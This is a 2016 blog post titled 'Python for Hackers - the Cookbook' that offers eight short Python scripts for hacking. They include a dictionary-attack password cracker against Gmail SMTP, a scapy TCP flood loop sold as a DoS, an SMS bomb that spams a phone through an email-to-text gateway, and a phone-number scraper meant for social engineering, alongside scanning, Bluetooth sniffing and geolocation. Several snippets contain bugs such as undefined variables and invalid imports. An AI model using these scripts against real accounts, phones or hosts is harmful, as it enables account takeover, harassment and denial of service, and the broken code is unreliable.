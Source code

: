 ```yaml
---
layout:     post
comments:   true
title:      "Python for Hackers - the Cookbook"
subtitle:   "My favorite recipes"
date:       2016-09-11 12:00:00
author:     "ex0dus"
header-img: "img/PostBG/post-bg-12.png"
---
```


Python is one of the greatest programming languages for hackers. Not because of its easiness actually, but its ___ease-of-use___ and ___quick deployment___.

Take __Black Hat Python__ for example. Great book. Ever wanted to build a quick TCP server? Simple. Implement `socket`. Make an object, connect, send some header data, and await a response

First, specify two variables for a target and port.

    host = "www.test.com"
    port = 80

Make TCP socket object and ___yadadadada___

    obj = socket(socket.AF_INET, socket.SOCK_STREAM)
    obj.send("GET / HTTP/1.1\r\nHost:" + host + "\r\n\r\n")
    response = obj.recv(4096)
    print response

The point is, with an ever growing collection of Python libraries and easy to deploy code, Python is ideal
for hackers. If you ever look at some of the source code for popular pentesting tools, you will see a large
amount of Python.

Well, today I'm more of here to talk to about some applicable code you can use in pentesting situations, where you may not always have access to a Kali machine. And maybe with some ingenuity, you can even execute
this code on a mobile device. So here are my favorite Pythonic recipes for the hacker!

## 1. Extract Phone Numbers
Let's start off with something simple. Say we want to siphon some Phone Numbers from a document or some sort of webpage. We want to social engineer these numbers, but the page is just spewing a ton of bullshit we don't care much for.

    import re, urllib
    url = "www.test.com/contact.html"
    htmlFile = urllib.urlopen(url)
  	html = htmlFile.read()
    phoneNums = re.findall(r'^(\+\d{1,2}\s)?\(?\d{3}\)?[\s.-]\d{3}[\s.-]\d{4}$', html)
    print phoneNums

The core component that you need to understand is 5th line, where you would see a random string. What is it?
That is known as a __regular expression__. This is basically a special string that signifies a specific
pattern to look for. That specific regex specified looks for standard phone-numbers in these formats:

    ###-###-####
    (###) ###-####
    ### ### ####
    ###.###.####

[(source for regex)](http://stackoverflow.com/questions/16699007/regular-expression-to-match-standard-10-digit-phone-number)

## 2. Hacking SMTP (email)

With the vast collection of modules for Python, there obviously is one for __SMTP__, also known as ___Simple
Mail Transfer Protocol___. This is the protocol utilized by email services. Let's make a simple script that launches a dictionary attack on a sample Gmail account (can be utilized on other SMTP services, such as Yahoo).

    import smtplib
    username = "hackme@gmail.com"
    # Specify a wordlist
    wordlist = open("wordlist.txt", 'r')
    for i in wordlist.readlines():
          password = i.strip("\n")
          try:
              s = smtplib.SMTP("smtp.gmail.com", 587)
              s.ehlo() # identify self to server to confirm working
              s.starttls() # start secure connect
              s.ehlo
              s.login(username, str(password))
              print "Found! Password: %s" % password
              s.close
            except:
              print "OOPs something went wrong"

Let's look at a few lines. the `for` keyword takes each newline within the `wordlist.txt` and appends it as a possible password. When we look at line 8, a SMTP object is defined, connecting to the Gmail SMTP server on port 587. The SMTP object would attempt to login using with the username, and each password from within the wordlist.

## 3. TCP DoS attack
This quick script provides a way for the user to employ a quick stress.

    from scapy import *
    target = "127.0.0.1" # replace with target IP address
    port = 80
    sport = 8080 # replace with source port, or import random to randomize.
    while True:
      send(IP(dst=target) / TCP(sport=x,dport=port), inter=.005)
      print "Sent. Kill with Ctrl + C"

We look at line 6. This implements the module `scapy`. Three variables are utilized, a target address, port,
and source port. The send() method identifies that, as well as using the TCP protocol.

## 4. Searching Vulnerability with Shodan
This script implements the `shodan` module in order to find vulnerable devices/services.

    import shodan
    SHODAN_API_KEY = # key here
    # Create object
    api = shodan.Shodan(SHODAN_API_KEY)
    try:
        results = api.search("") # string to search
        print "Result: %s" % results[total]
        for result in results['matches']:
            print "IP: %s" % result['ip_str']
            print result['data']
    except shodan.APIError, e:
        print "Something went wrong"

## 5. Scanning with Nmap
Very simple host scan using the `python-nmap` module.

    import python-nmap
    ip = '127.0.0.1' # replace with target host
    scan = nmap.PortScanner()
    scan.scan(ip, '0-65535') # scan host, all ports

## 6. Sniffing Bluetooth Devices

    from bluetooth import *
    from time import *
    found = []
    def findDevices():
        foundDevs = discover_devices(lookup_names = True)
        for (addr. name) in foundDevs:
            if addr not in alreadyFound:
                print "Found Device " + str(name)
                print "MAC Address: " + str(addr)
                found.append(addr)
    while True:
        findDevices()
        sleep(5)

## 7. SMS Bomb
This script uses the `smtplib`, just as the SMTP cracker does. However,
this time it is implemented on email-2-text carrier address.

    import smtplib
    # It is important to use a disposable Gmail account
    gmail = "test@gmail"
    password = "somepassword"
    target_num = "123-456-7890@vtext.com"
    # Example Verizon SMS address. Replace with carrier address of num.
    o = smtplib.SMTP("smtp.gmail.com:587")
    o.starttls()
    o.login(gmail, password)
    message = "Something hi"
    spam_msg = "From: {} \r\nTo: {} \r\n\r\n {}".format(gmail, phone_num, message)
    counter = 20 # execute 20 times
    for i in range(counter):
          o.sendmail(gmail, phone_num, spam_msg)

## 8. Geolocation
Take an IP address, and you get back some nice juicy information about geolocation.

    import pygeoip
    # GeoIP object
    gi = pygeoip.GeoIP('GeoIP.dat') # specify database file for GeoIP.
    gi = pygeoip.GeoIP('GeoIPRegion.dat') # region
    gi = pygeoip.GeoIP('GeoIPCity.dat') # city
    gi = pygeoip.GeoIP('GeoIPISP.dat') # ISP
    ip = "127.0.0.1" # replace with IP address!
    # Country
    gi.country_name_by_addr(ip) #=> "United States" for e.g
    gi.region_by_addr(ip) #=> {'region_name': 'NY', 'country_code': 'US'}
    gi.record_by_addr(ip) #=> Returns a huge dict of stuff Im not even gonna give an example
    gi.org_by_addr(ip) #=> "Super Techcom ISP Inc. Corp."
    # More info: https://github.com/appliedsec/pygeoip/wiki
    # Even more info: http://pygeoip.readthedocs.io/en/v0.3.2/getting-started.html

  That's just some of my favorite quick delicious recipes for evil malicious Pythonic hax3z.

  As a language that includes elements of a __procedural scripting__ language and __object-oriented__ language, Python provides at-ease use for both hackers and engineers. I rely greatly on Python when it comes to writing scripts and projects, and hopefully, I'll continue to utilize it. However, to add some variation, I'll start with some projects in C, Rust and Ruby as well. Exploitation is looking nice, so that's something I'm aiming at.

  Thanks for reading, and more is coming! Here is a gr8 list of books by hackers for hackers with relevance to Python:

  * [__Black Hat Python__](http://file.allitebooks.com/20150521/Black%20Hat%20Python.pdf)
  * [__Gray Hat Python__](http://www.chinastor.org/upload/2015-08/15081917086229.pdf)
  * [__Violent Python__](https://repo.zenk-security.com/Programmation/Violent%20Python%20a%20Cookbook%20for%20Hackers-Forensic%20Analysts-Penetration%20testers%20and%20Security%20Engineers.pdf)
 * and of course, if you are a beginner YEARNING to learn, here's a great classic:
 [__Automate the Boring Stuff with Python__](https://automatetheboringstuff.com/)
